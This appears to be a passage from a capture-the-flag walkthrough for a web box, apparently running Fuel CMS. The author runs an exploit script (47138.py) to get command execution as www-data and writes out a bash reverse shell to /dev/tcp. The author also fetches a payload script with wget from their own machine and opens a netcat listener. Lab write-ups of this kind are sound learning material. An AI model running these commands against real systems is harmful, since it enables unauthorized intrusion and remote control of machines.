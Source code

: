 ```sh
        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]

```
- **As I don't need the proxy here how I make it as a comment**

```sh
└─$ python2 47138.py         
cmd:whoami
systemwww-data

```
- **Its running on python2**
- **Though there is a php error handling issue it working well**

```sh
cmd:ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt

cmd:which bash
system/bin/bash


```
- **There is bash so we can try the reverse shell of bash**

![alt text](image-4.png)
- [Link](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- **I'm using pentestMonkeys rev. shell**

```sh
bash -i >& /dev/tcp/<My local IP>/8080 0>&1
```
- **I tried to directly inject the shell to the victim machine but its not giving me any resources**
- **Lets try it with wget through my machine by the python server**

```sh
cmd: wget http://10.17.88.30/welcome.sh

```
- **In the welcome.sh file I included my script**

```sh
cmd:chmod +x welcome.sh

```
```sh
└─$ nc -nlvp 8080
listening on [any] 8080 ...

```
- **Here my netcat is open**
